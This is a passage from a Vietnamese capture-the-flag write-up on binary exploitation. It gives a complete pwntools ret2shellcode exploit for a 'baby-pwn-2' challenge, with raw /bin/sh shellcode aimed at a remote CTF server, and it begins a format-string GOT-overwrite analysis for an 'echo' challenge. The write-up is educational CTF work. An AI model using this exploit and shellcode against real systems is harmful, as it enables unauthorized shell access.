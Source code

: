 - bài này cũng là 1 bài warmup , ret2shellcode nên sẽ nói nhanh

đầu tiên in địa chỉ của ```s``` , ```s``` ở đây là 1 biến chứa dữ liệu của ta nhập vào , xảy ra ```BOF``` và NX cũng tắt -> ret2shellcode thôi
![image](https://hackmd.io/_uploads/S11X2DGwJe.png)

### EXPLOIT
script : 

```css
#!/usr/bin/python3

from pwn import *

context.binary = exe = ELF('./baby-pwn-2')

p = process()
p = remote('34.162.119.16', 5000)
p.recvuntil(b'Stack address leak: ')
leak = int(p.recvline()[:-1],16)
print(hex(leak))
input()
#shellcode = asm(shellcraft.sh())
payload = b"\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\xb0\x3b\x0f\x05"

payload = payload.ljust(0x40,b'\x90')
p.sendlineafter(b'Enter some text: ',payload +  p64(0) + p64(leak))

p.interactive()
```
![image](https://hackmd.io/_uploads/SyBAjvGP1x.png)


----------------

## echo

### REVERSE

checksec : 

![image](https://hackmd.io/_uploads/H15S6PMwkg.png)

bài này nhìn vào thì là 1 bug ```fsb``` đơn giản đúng không?  :))) , tuy nhiên ta thấy ở đây ta chỉ được nhập cho ```buf``` đúng 1 byte vì ```canary``` sẽ ở vị trí ```rbp-8```  , may mắn là ```GOT``` vẫn có thể overwrite nên điều kiện cấp thiết nhất sẽ là overwrite ```__stack_chk_fail@plt``` thành ```main``` để tạo 1 loop 


![image](https://hackmd.io/_uploads/S1PG6Pfwkl.png)
